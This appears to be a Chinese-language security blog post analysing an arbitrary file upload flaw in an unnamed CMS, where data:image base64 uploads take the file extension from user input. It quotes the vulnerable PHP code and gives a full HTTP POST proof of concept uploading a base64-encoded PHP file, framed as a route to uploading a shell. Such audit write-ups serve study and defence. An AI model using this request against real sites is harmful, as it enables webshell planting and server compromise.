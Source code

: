 # 浅谈data:image格式文件上传

21年底和同学兼同事测试某个项目时，他曾问我图片上传时候数据包中以data:image格式来上传（读取）的，有没有什么方法上传shell呢，当时经验太少也没想出方法。

过了一年来回顾下这个问题，就以某CMS文件上传漏洞的源码为例分析一下。

## 代码逻辑

data:image能算作是一种编码格式，常用于图片的压缩，后面跟一串base64字符串。直接将data:image完整数据敲进浏览器栏里就能看到图片显示出来
[![pS3VEOe.png](https://s1.ax1x.com/2023/01/17/pS3VEOe.png)](https://imgse.com/i/pS3VEOe)

data:image格式的上传如果不严格校验文件后缀，会造成任意文件上传。以我之前审计的某CMS的文件上传漏洞为例，代码如下：
[![pS3VtTs.png](https://s1.ax1x.com/2023/01/17/pS3VtTs.png)](https://imgse.com/i/pS3VtTs)
src传入字符串，正则匹配两处字符串保存到matches数组中，第一处是格式，第二次是base64编码的数据

 - [ ] 代码
       
       preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)
       
       $base64 = $matches[2];
       
       $type = $matches[1];
       
       $filename = md5($base64).".$type";

最后保存预览文件到本地/preview目录下，文件名以md5格式进行命名，后缀为用户传入的后缀

因此可以构造如下数据包

 - [ ] 数据包
       
       POST /xxxx HTTP/1.1
       
       Host: xxxx
       
       Cache-Control: max-age=0
       
       Upgrade-Insecure-Requests: 1
       
       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
       AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0
       Safari/537.36
       
       Accept:
       text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,_/_;q=0.8,application/signed-exchange;v=b3;q=0.9
       
       Accept-Encoding: gzip, deflate
       
       Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
       
       Cookie: PHPSESSID=0ufj3o7j0o7ovds8uuln7ho7m6
       
       Connection: close
       
       Content-Length: 46
       
       data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+

上传php格式base64编码的<?php phpinfo();?>进行验证

[![pS3V60J.png](https://s1.ax1x.com/2023/01/18/pS3V60J.png)](https://imgse.com/i/pS3V60J)
[![pS3Vym4.png](https://s1.ax1x.com/2023/01/18/pS3Vym4.png)](https://imgse.com/i/pS3Vym4)
